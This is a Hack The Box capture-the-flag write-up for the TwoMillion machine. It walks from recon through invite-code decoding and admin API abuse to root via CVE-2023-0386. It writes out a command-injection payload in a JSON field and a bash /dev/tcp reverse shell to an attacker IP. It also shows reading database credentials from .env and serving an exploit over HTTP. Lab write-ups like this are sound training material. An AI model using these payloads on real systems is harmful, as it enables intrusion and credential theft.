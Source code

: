 # [TwoMillion](https://app.hackthebox.com/machines/TwoMillion) Writeup [HTB]
## ⏯️ Credits
Thanks to IppSec for the [great walkthrough](https://www.youtube.com/watch?v=Exl4P3fsF7U), as always. Very insightful whenever I get stuck!

## 🧭 Reaching the website
As per usual, we begin by scanning the services that are exposed using `nmap`. The only services are ports 22 (ssh) and 80 (http). We also discover that the host name is `2million.htb`. Interestingly, the browser is having trouble redirecting the page, so we add `2million.htb` to the list of known hosts.
```sh
$ vim /etc/hosts
# add this line
10.10.11.221    2million.htb
```
Now everything works fine: the website appears to be an old version of Hack The Box. We also re-run `nmap`, since some scripts are executed only if the hostname is known. However, we don't find anything interesting.

## 💃 Getting the invite code
First, we want to create an account for the website, so that we can log in. To do so, it looks like we need an invite code (which we don't have). While investigating the content of the page, we find a suspicious file, `inviteapi.min.js`. The content of the file is some obfuscated, hell-sent javascript code, so we copy-paste it into ChatGPT to decrypt it for us:
```js
[...]
function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}
```
It looks like we can send an HTTP POST request to `/api/v1/invite/how/to/generate` to get a hint on what to do next. We get back some scrambled letters, together with an encryption method: ROT13. 

ROT13 is a special case of Cesar's smash-hit cipher, where the letters are shifted by 13 places. We decrypt the message and obtain the hint: _In order to generate the invite code, make a POST request to `/api/v1/invite/generate`_.

This second POST finally returns an encoded, base64-smelling string. We decode it and get the invite!
```sh
$ echo NjVYNFgtMjkyWjEtS0VGVkYtTkg0SlY= | base64 -d
65X4X-292Z1-KEFVF-NH4JV
```
Now we can create an account and log on the website.

## 🛡️ Becoming an admin
After logging in, the website functionalities become pretty limited and, luckily for us, many pages are not actually there. Since we are aiming for a reverse shell, we start investigating the APIs. An HTTP GET request to `/api/v1` conveniently returns a complete list:
```json
"user": {
	"GET": {
	"/api/v1": "Route List",
	"/api/v1/invite/how/to/generate": "Instructions on invite code generation",
	"/api/v1/invite/generate": "Generate invite code",
	"/api/v1/invite/verify": "Verify invite code",
	"/api/v1/user/auth": "Check if user is authenticated",
	"/api/v1/user/vpn/generate": "Generate a new VPN configuration",
	"/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
	"/api/v1/user/vpn/download": "Download OVPN file"
	},
	"POST": {
	"/api/v1/user/register": "Register a new user",
	"/api/v1/user/login": "Login with existing user"
	}
},
"admin": {
	"GET": {
	"/api/v1/admin/auth": "Check if user is admin"
	},
	"POST": {
	"/api/v1/admin/vpn/generate": "Generate VPN for specific user"
	},
	"PUT": {
	"/api/v1/admin/settings/update": "Update user settings"
	}
}
```
We begin with checking whether we are an admin. Of course, we aren't. Since we want to become one, we kindly ask the server by sending a PUT request to `/api/v1/admin/settings/update`. Our kindness is more that enough, since every user is allowed to send this request! 
We don't really know what are the expected fields, but the server nicely returns explicit error messages, so we are able to provide the correct json with few attempts.
```json
{
	"loggedin":true,
	"username":"real-admin",
	"email":"real.fr@admin.fr",
	"is_admin":1
}
```
`real-admin` is now an actual admin!

## 🐚 Getting the reverse shell
Up to now, there was only one API we weren't allowed to call: `/api/v1/admin/vpn/generate`. Clearly, we use our new admin powers to see what it does.
As before, few attempts are enough to discover the single field, which is `"username"`. 
We try a simple POC command injection to check whether the server is vulnerable:
```json
{
	"username":"real-admin;sleep 2"
}
```
It is!

We open our classic channel:
```sh
$ nc -lvnkp 4815
```
and then get the reverse shell:
```json
{
	"username":"real-admin;bash -c 'bash -i >& /dev/tcp/10.10.14.136/4815 0>&1'"
}
```

## ⚔️ Becoming an admin, again
As soon as obtaining the shell, we check which user we are in control of:
```
$ whoami
www-data
```
Since the first flag is in the `/home/admin/` folder, we need to become an admin. Again.

`www-data` has limited privileges, but can read all the web application files. Therefore, we take a look to `.env`, hoping to find some credentials there:
```
$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
Bingo! We are ready to escalate our privileges and read the flag:
```
$ su - admin
Password: SuperDuperPass123
$ whoami
admin
$ ls
user.txt
$ cat user.txt
<ADMIN FLAG>
```

## 🫛 Becoming ~~a pea superfan~~ root
To own the last flag, we need to escalate privilege again, and become the root. However, this looks like an impossible task (to me, an HTB noob).

At this moment of desperation, we use `linpeas` to scan for possible privilege escalation paths.

<!-- TODO -->

Results suggest mind admin's business, and looking into their mailbox:
```sh
$ cat /var/spool/mail/admin
[...]
Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
A simple search on Google reveals the mail is likely referring to CVE-2023-0386. We then find [this POC](https://github.com/sxlmnwb/CVE-2023-0386). Time to become root!

As for `linpeas`, we need to send the POC code to the web server. Therefore, we download it on our machine, compress it and expose it using python3's web server.
```sh
$ git clone https://github.com/sxlmnwb/CVE-2023-0386
$ rm -fr CVE-2023-0386/.git
$ tar -czvf CVE-2023-0386.tar.gz CVE-2023-0386/
$ python3 -m http.server 8000
```
In our admin shell, we download the tar folder, extract it, and follow the README instructions to run the exploit.

<!-- TODO -->
The only thing left to do is reading the flag!
```sh
$ whoami
root
$ cat /root/root.txt
<ROOT FLAG>
```

## 🫖 Conclusion and tools recap
What a humbling experience! If this box was easy, I don't want to think about the insane ones...

Anyway, now I'm slightly crazier than before. Also, I hate curl. And I need to sleep.

A great experience! 418/10 would recommend.  

*__Tools recap__*
<!--TODO-->